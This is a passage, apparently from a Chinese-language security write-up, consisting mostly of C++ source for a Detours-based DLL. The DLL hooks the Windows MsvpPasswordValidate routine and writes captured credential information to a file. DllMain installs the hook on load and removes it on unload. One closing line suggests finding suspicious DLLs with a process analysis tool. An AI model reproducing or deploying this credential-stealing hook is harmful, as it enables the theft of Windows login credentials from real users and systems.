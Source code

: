 ```plain
    LONG code = DetourTransactionCommit();
    if (code != NOERROR) {
        credentialFile << L"Domain: " << L"Error" << std::endl;

    }
    else {
        credentialFile << L"Domain: " << L"true" << std::endl;
    }
    credentialFile.close();
    return true;
}
bool UninstallHook() {
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);
    DetourTransactionCommit();
    return TRUE;
}
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        return InstallHook();

    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        return UninstallHook();
    }
    return TRUE;
}
```

防范的话，通过 Process 进程分析工具，分析可疑 dll。
